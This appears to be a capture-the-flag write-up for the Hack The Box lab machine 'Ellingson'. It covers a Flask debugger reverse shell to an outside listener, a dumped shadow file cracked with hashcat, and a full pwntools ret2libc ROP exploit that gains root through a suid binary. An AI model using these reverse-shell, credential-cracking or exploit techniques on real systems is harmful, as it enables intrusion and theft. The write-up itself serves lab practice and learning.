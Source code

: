 ```yaml
---
layout: post
title: HTB - Ellingson
date: 2025-03-25 08:53 -0400
---
```


{{ 'ellingson' | machine_img }}

# nmap

```bash
~/workspace/projects/htb/retired_machines/ellingson » ~/dotfiles/htb/nmap.sh $(cat ip.txt) | tee nmap.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-05 12:10 -04
Nmap scan report for 10.10.10.139
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49e8f12a8062de7e0240a1f430d288a6 (RSA)
|   256 c802cfa0f2d85d4f7dc7660b4d5d0bdf (ECDSA)
|_  256 a5a995f54af4aef8b63792b89a2ab466 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-title: Ellingson Mineral Corp
|_Requested resource was http://10.10.10.139/index
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-05 12:11 -04
```

- no .git
- no robots.txt
- default nginx page 404

## main website
flask debug mode is active `http://10.10.10.139/articles/'`. So we get a shell pretty easily.
![flask debug](/assets/img/ellingson1.png)
```python
import subprocess; subprocess.check_output("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/4444 0>&1'", shell=True)
```

## priv esc

There are 3 more users with shells
```bash
theplague:x:1000:1000:Eugene Belford:/home/theplague:/bin/bash
hal:x:1001:1001:,,,:/home/hal:/bin/bash
margo:x:1002:1002:,,,:/home/margo:/bin/bash
duke:x:1003:1003:,,,:/home/duke:/bin/bash
```

Doesn't look like its running on docker. port 8888 is the flask server. 80 is probably the next step.
```bash
hal@ellingson:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      1349/python3
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

weird suid binary called `garbage`, gives an unauthorized message
![unauthorized](/assets/img/ellingson2.png)

`/var/backups/shadow.bak` looks interesting.

```bash
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
```

cracking with `hashcat -a 0 ./hash.txt ~/wordlists/rockyou.txt -m 1800` gives:

```bash
theplague::password123
margo:iamgod$08
```

## priv esc 2

margo gives the user flag:
```bash
margo@ellingson:~$ cat user.txt
80215***************************
```

Now we get a password prompt when using the `garbage` binary.
![password prompt](/assets/img/ellingson4.png)

Reversing it shows the password: `N3veRF3@r1iSh3r3!`. Doesn't work in any of the other users. There is also a buffer overflow on the prompt with `gets`.
![hardcoded password](/assets/img/ellingson3.png)

I'm not very good at this but I have an idea of what to do.
- leak libc
- rop chain
- call system

For leaking libc we have a `print_hex` function, we overwrite the return value and then the next func gets leaked?

It's way simpler actually, we just use a pointer from the `got` table and print it with `puts` or with `print_hex`. I forgot that `puts` and `printf` take a pointer and was trying to pass actual values to it.

```python
#!/usr/bin/env python3

from pwn import *

context(os = 'linux', arch = 'amd64')
libc = ELF("./libc.so.6", checksec=False)
elf = ELF(
    "./garbage",
    checksec=False,
)

context.binary = elf
context.log_level = 'debug'

def pad(char, qt):
    return char.encode() * qt

def pop_rdi(data):
    # 0x000000000040179b : pop rdi ; ret
    return p64(0x0040179b) + data

def pop_rbp(data):
    return p64(0x00401239) + data

def pop_rsi(data):
     # : pop rsi ; pop r15 ; ret
    return p64(0x00401799) + data + (b"\x00"*8)

def pop_rsp(data):
    # 0x0000000000401795 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
    return p64(0x00401795) + data + (b"\x00"*8) + (b"\x00"*8) + (b"\x00"*8)

def add_rsp8():
    return p64(0x0000000000401012)

payload = (
    pad("A", 136)
    + pop_rdi(b"")
    + p64(elf.got['puts'])
    + p64(elf.symbols['puts'])
    + p64(elf.symbols['main'])
)

shell = ssh(user='margo', host='10.10.10.139', password='iamgod$08')
p = shell.run("/bin/bash")
p.sendline("/usr/bin/garbage")

p.recvuntil(b"password:")
p.sendline(payload)
p.recvuntil(b"denied.\n")

leaked_puts = u64(p.recv()[0:6] + b"\x00\x00")
libc_base = leaked_puts - libc.symbols["puts"]
libc.address = libc_base

rop = ROP([libc])
rop.setuid(0x0)
rop.system(next(libc.search(b'/bin/sh\x00')))

p.sendline(pad("A", 136) + rop.chain())
p.recvuntil(b"denied.\n")
p.interactive()
```

```bash
$ cat /root/root.txt
370e2***************************
```
